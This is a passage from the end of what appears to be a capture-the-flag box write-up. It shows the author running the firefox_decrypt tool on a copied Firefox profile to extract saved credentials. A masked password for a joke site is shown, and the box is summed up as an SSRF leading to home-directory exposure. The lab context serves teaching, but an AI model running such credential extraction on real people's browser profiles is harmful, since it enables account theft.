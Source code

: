 Now, with the Firefox profile on my machine, I used the amazing [unode/firefox_decrypt](https://github.com/unode/firefox_decrypt) tool to extract any saved credentials.

```bash
❯ chmod -R 777 .mozilla
❯ python firefox_decrypt.py .mozilla/firefox/8k3bf3zp.charles
2025-07-09 16:16:28,114 - WARNING - profile.ini not found in .mozilla/firefox/8k3bf3zp.charles
2025-07-09 16:16:28,114 - WARNING - Continuing and assuming '.mozilla/firefox/8k3bf3zp.charles' is a profile location

Website:   https://www.buckinghampalace.com
Username: 'Charles'
Password: '**************'
```

And there we have it! Charles's password for Buckingham Palace. A fitting end to our tour of London.

This was a really fun box with a great SSRF vulnerability leading to a home directory exposure. Thanks for reading, and happy hacking!
